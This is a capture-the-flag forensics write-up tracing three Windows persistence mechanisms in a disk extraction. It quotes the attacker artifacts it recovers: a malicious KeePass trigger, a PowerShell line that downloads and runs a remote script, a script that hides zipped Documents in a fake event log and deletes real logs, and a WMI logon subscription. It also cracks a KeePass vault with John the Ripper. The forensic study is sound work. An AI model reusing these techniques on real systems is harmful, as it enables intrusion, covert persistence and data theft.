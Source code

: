 # The Quiet Fruit

 📝 _Category_ : Forensics  - 💯 _Number of points_ : 97

## Challenge Description

_As a forensic analyst, your mission is to identify all persistence mechanisms implanted on a compromised Windows 11 device._

_The flag is split into three parts: INS_PART1{part1}, INS_PART2{part2}, and INS_PART3{part3}._
_The final flag is obtained by concatenating the three parts: INS{part1part2part3}.

_Note: There’s a one-time easter egg hidden in this challenge (as usual) — only the first person to find it will win a goody 😉 - Send me the easter flag in PM on Discord._

We were provided with a ZIP file containing a disk extraction made using [KAPE](https://www.kroll.com/en/insights/publications/cyber/kroll-artifact-parser-extractor-kape), a forensic tool designed for rapid artifact collection and parsing.

---

## Part 1 - Policy-Based Execution

Upon analyzing the extracted C drive files, I quickly noticed that the `Users` directory was empty, suggesting possible cleanup, evasion techniques, or simply that no user profiles were present in the extracted disk image. Checking installed applications in `C\Program Files\`, the only non-default program was **KeePass Password Safe 2**.  Digging deeper, I found two interesting policy files in its directory:

- `KeePass.config.enforced.xml`
- `KeePass.config.xml`

Inspecting `KeePass.config.enforced.xml`, I discovered an XML configuration specifying an automated execution mechanism:

```xml
<Configuration xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<Application>
<TriggerSystem>
<Triggers>
<Trigger>
<Guid>YDo4UTpYMEywCLHDCJImtw==</Guid>
<Events>
<Event>
<TypeGuid>1M7NtUuYT/KmqeJVJh7I6A==</TypeGuid>
<Parameters/>
</Event>
</Events>
<Conditions/>
<Actions>
<Action>
<TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid>
<Parameters>
<Parameter>cmd.exe</Parameter>
<Parameter>SU5TX1BBUlQxe0tlM1BAcyRCYWNrRDAwcn0=</Parameter>
<Parameter>False</Parameter>
<Parameter>1</Parameter>
<Parameter/>
</Parameters>
</Action>
</Actions>
</Trigger>
</Triggers>
</TriggerSystem>
</Application>
</Configuration>
```

The **Base64-encoded string** caught my eye. Decoding it using **CyberChef** revealed the first flag:

**Flag 1:** `INS_PART1{Ke3P@sc@BackD00r}`

---

## Part 2 - PowerShell Logs & Malicious Service

Remembering previous challenges, I checked PowerShell logs, typically stored in `C:\Windows\System32\winevt\logs`. With only 380 events, it was manageable.

Two key logs stood out:

### Log 1 - Suspicious PowerShell Download (Event ID 600)

```powershell
HostApplication=powershell -nop -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.101:3000/CreateService.ps1')
```

This indicated a remote script execution.

### Log 2 - Execution of a Suspicious Script (Event ID 600)

```powershell
HostApplication=powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\User\AppData\Roaming\Microsoft\WindowsBackup.ps1
```

Unfortunately, the script content wasn’t on disk. However, checking **`Microsoft-Windows-PowerShell`** logs (Event ID 4104), I found the executed PowerShell script:

```powershell
while ($true) {
    try {
        Compress-Archive -Path $env:USERPROFILE\Documents\* -DestinationPath C:\Windows\System32\winevt\logs\a.zip -Force
        Remove-Item -Path "C:\Windows\System32\winevt\logs\Microsoft-Windows-Hyper-V-VID-Admin.evtx" -Force
        Rename-Item -Path "C:\Windows\System32\winevt\logs\a.zip" -NewName "Microsoft-Windows-Hyper-V-VID-Admin.evtx" -Force
    } catch {}
    Start-Sleep -Seconds 86400  # 24h
}
```

This script:

- Continuously **archives user documents**
- Stores them in a **fake .evtx log file**, likely for exfiltration or local backup
- Deletes actual log files for stealth

Extracting the fake log:

```bash
mv C\Windows\System32\winevt\logs\Microsoft-Windows-Hyper-V-VID-Admin.evtx ./a.zip
unzip ./a.zip
```

Inside, I found:

- `flag.txt`
- `VeryConfidential.kdbx` (KeePass vault)

**Flag 2:** `INS_PART2{N@ughTyS3rv!ce}`

---

## Part 3 - WMI Persistence

I felt close to solving the last flag. I merged event logs using [Merge_the_events.ps1](https://github.com/abhinav-eyesOnglass/evtx/blob/master/Merge_the_events.ps1):

```powershell
.\Merge_the_events.ps1 -FolderPath QuietFruitLogs
```

Filtering between **16:25 - 16:30**, I found a **WMI Event Subscription**:

```powershell
instance of __EventFilter
{
    Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_LogonSession'";
};
instance of CommandLineEventConsumer
{
    CommandLineTemplate = "cmd.exe /c C:\Users\User\Downloads\ChromeSetup.exe";
    Name = "ChromeUpdater";
};
```

This mechanism leverages **`__EventFilter`** to monitor logon sessions and triggers **`CommandLineEventConsumer`** to run `ChromeSetup.exe` whenever a user logs in, ensuring persistence.

Decoding another **Base64-encoded string**, I found:

**Flag 3:** `INS_PART3{WMI_Always_Does_The_Job}`

---

## Easter Eggs

Using the keepass2john:

```bash
python keepass2john.py VeryConfidential.kdbx > VeryConfidential.txt

john --format=keepass VeryConfidential.txt
```

John finds that password is `Sexyme`

Simply open the vault using the password, there is one entry called "Easter Egg" with the flag in it.

**Easter Egg Flag** : `INSOTP{E@st3rEgG!!!}`

---

## Final Flag

Concatenating all parts as instructed:

```
INS{Ke3P@sc@BackD00rN@ughTyS3rv!ceWMI_Always_Does_The_Job}
```

---

### Alternative Solution - Grepping Encoded Flags

Some players took a **faster but less investigative** approach by **grepping for Base64-encoded “INS”** or **strings-ing all binary files**. While effective for a CTF, my approach prioritized forensic methodology over speed, mimicking a real-world investigation.

**Final Thoughts:**

- Loved the mix of **policy-based execution, PowerShell abuse, and WMI persistence**.
- The **fake .evtx file** hiding exfiltrated data was a clever trick.
- It was a satisfying challenge with **real-world forensic relevance**!

<p align="center">
  <img src="images/MemeB64ChallResolved.png" />
</p>
